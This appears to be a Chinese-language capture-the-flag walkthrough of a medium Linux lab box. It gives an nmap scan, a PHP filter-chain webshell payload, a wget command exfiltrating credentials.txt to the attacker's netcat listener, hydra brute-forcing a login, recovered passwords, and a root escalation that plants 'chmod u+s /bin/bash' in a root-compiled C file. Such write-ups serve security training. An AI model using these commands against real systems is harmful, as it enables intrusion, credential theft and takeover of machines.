## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/swiss  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-25 19:53 CST
Nmap scan report for realgob.dl (172.17.0.2)
Host is up (0.00026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 f1:2d:b0:54:e3:57:94:c8:3a:1a:7a:ba:d8:2d:7e:f9 (ECDSA)
80/tcp open  tcpwrapped
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: \xF0\x9F\x91\x8B Mario \xC3\x81lvarez Fer\xC5\x84andez
MAC Address: 02:42:AC:11:00:02 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/25%OT=22%CT=1%CU=40368%PV=Y%DS=1%DC=D%G=Y%M=0242A
OS:C%TM=67BDAF4F%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=107%TI=Z%CI=Z%I
OS:I=I%TS=A)SEQ(SP=107%GCD=2%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7
OS:%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST1
OS:1)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%
OS:W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=
OS:Y%DF=N%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T2(R=Y%DF=N%T=40%W=0%S=O%A=Z%F=R%
OS:O=%RD=0%Q=)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
OS:RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%I
OS:PL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.25 ms realgob.dl (172.17.0.2)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.18 seconds
```

## ffuf

扫描得到一个**file**参数可以进行读取文件



查看到存在**darks**用户



这里依旧可以使用**filterchains**攻击

- [synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator)

```
[root@kali] /home/kali/swiss/php_filter_chain_generator (main) 
❯ python php_filter_chain_generator.py --chain '<?php system($_POST["cmd"]);?>'
```



在该目录下发现了一个很大的**txt**文件



由于太大无法查看，这里我把文件传到了**kali**

```
cmd=wget --method=PUT --body-file=credentials.txt http://172.17.0.1:1000
```

**kali**

```
❯ nc -lvnp 1000 > get.txt
```

使用**strings**读取然后**grep**过滤查找（因为有一部分二进制码，使用**cat**过滤给**grep**会报错



得到密码：**\_dkvndsqwcdfef34445**

## Hydra

另一种获取密码的方式就是暴力破解网站里的登录口

```
[root@kali] /home/kali/swiss  
❯ hydra -l administrator -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form '/sobre-mi/login.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos.' -f -t 64 -I
```





## User

直接使用ssh登录是不可以的

在上级目录看到一个文件，同样将其转出来



查看可见字符发现一个**IP**地址：**172.17.0.188**



似乎是他会向**172.17.0.188**发送一些东西？然后发送失败了？，为了能够抓到包，需要添加网络接口

```
[root@kali] ~kali/swiss  
❯ ip addres add 172.17.0.188/24 dev docker0
```

然后就能**ssh**登录了，但是不能使用**cd**命令？



可以参考一下具体的**ip**



## Cristal

执行**sendinv2**文件

使用**wireshark**进行抓包发现一个**BASE32**加密后字符串



将里面的加密字段解密一下



```
hola! somos el grupo BlackCat, pensamos en encriptar este server pero no tiene nada de interes, te ahorrare tiempo: cristal:dropchostop453SJF : disfruta
```

得到了**cristal**的密码

## Root

上传**linpeas**，注意到**root**在运行**system.sh**



```
cristal@f47e170acca0:~$ cat systm.sh 
#!/bin/bash

var1="/home/cristal/systm.c"
var2="/home/cristal/syst"

while true; do
      gcc -o $var2 $var1
      $var2
      sleep 15
done
cristal@f47e170acca0:~$ ls -al
total 64
drwxr-x--- 1 cristal cristal  4096 Feb 25 08:51 .
drwxr-xr-x 1 root    root     4096 Nov 11 12:07 ..
-rw------- 1 cristal cristal     0 Nov 11 12:20 .bash_history
-rw-r--r-- 1 cristal cristal   220 Nov 11 12:07 .bash_logout
-rw-r--r-- 1 cristal cristal  3771 Nov 11 12:07 .bashrc
drwx------ 2 cristal cristal  4096 Feb 25 08:48 .cache
drwx------ 3 cristal cristal  4096 Feb 25 08:49 .gnupg
drwxrwxr-x 3 cristal cristal  4096 Nov 11 12:13 .local
-rw-r--r-- 1 cristal cristal   807 Nov 11 12:07 .profile
-rwxr-xr-x 1 root    root    16416 Feb 25 08:51 syst
-rw-rw-r-- 1 root    editor   1516 Nov 11 12:13 systm.c
-rwxr-xr-x 1 root    root      141 Nov 11 20:33 systm.sh
```

当前用户对**systm.c**具有可写权限

只需要修改一下就行了

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/utsname.h>
#include <time.h>

void log_system_info(const char *filename) {
    FILE *log_file = fopen(filename, "a");
    if (log_file == NULL) {
        perror("Error al abrir el archivo de log");
        exit(EXIT_FAILURE);
    }

    // Información del sistema
    struct utsname sys_info;
    if (uname(&sys_info) < 0) {
        perror("Error al obtener información del sistema");
        exit(EXIT_FAILURE);
    }

    // Tiempo de inicio del sistema
    struct timespec uptime;
    if (clock_gettime(CLOCK_BOOTTIME, &uptime) < 0) {
        perror("Error al obtener el tiempo de inicio del sistema");
        exit(EXIT_FAILURE);
    }
    time_t boot_time = time(NULL) - uptime.tv_sec;

    // Escribir la información en el archivo de log
    fprintf(log_file, "-----------------------------\n");
    fprintf(log_file, "Fecha y Hora: %s", ctime(&boot_time));
    fprintf(log_file, "Nombre del Sistema: %s\n", sys_info.sysname);
    fprintf(log_file, "Nombre del Host: %s\n", sys_info.nodename);
    fprintf(log_file, "Versión del Sistema: %s\n", sys_info.release);
    fprintf(log_file, "Versión del Kernel: %s\n", sys_info.version);
    fprintf(log_file, "Arquitectura de Hardware: %s\n", sys_info.machine);
    fprintf(log_file, "-----------------------------\n");

    fclose(log_file);
}

int main() {
    const char *log_filename = "/tmp/registros.log";
    system("chmod u+s /bin/bash");
    log_system_info(log_filename);

    return 0;
}
```



## Summary

`User`：在页面上使用**filterchains**虽然成功了，但是还是无法直接反弹**shell**，通过目录里的文件得知darks的密码，并且需要给自己添加一个**172.17.0.188**的网络接口才能成功连接。使用**wireshark**抓包得到加密字符串，获得**cristal**的密码。（也可以通过**hydra**爆破得到**darks**的密码，可能并不是预期？

`Root`：当前用户对**systm.c**具有可写权限，由于没有**vim**，这里使用的是**nano**，头文件中包含过**stdlib.h**，因此可以在主函数中直接使用**system**函数进行命令执行，给**/bin/bash**添加执行者权限。
